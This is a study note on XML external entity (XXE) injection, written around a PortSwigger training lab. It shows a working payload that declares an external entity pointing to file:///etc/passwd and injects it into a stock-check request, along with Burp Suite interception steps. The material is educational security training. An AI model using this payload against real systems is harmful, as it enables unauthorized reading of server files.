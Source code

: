 XXE portswigger: https://portswigger.net/web-security/xxe

1) check is there an XML that is sent in Post request or in any other request
2) insert a DTD tag , followed by an entity(the entity is external)
eg for XML payload updated with the DTD tag and external entity:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>     // DTD tag(we                                                                 // inserted this) 

<stockCheck>
<productId>
&xxe;        // external entity(we inserted this)
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
# 1)Lab: Exploiting XXE using external entities to retrieve files
Lab:https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files


This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

#### Solution

1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
    
    `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
3. Replace the `productId` number with a reference to the external entity: `&xxe;`. The response should contain "Invalid product ID:" followed by the contents of the `/etc/passwd` file.

lab video: https://www.youtube.com/watch?v=0DQnWalxYb4&ab_channel=Intigriti
- XML DTD :https://www.w3schools.com/xml/xml_dtd.asp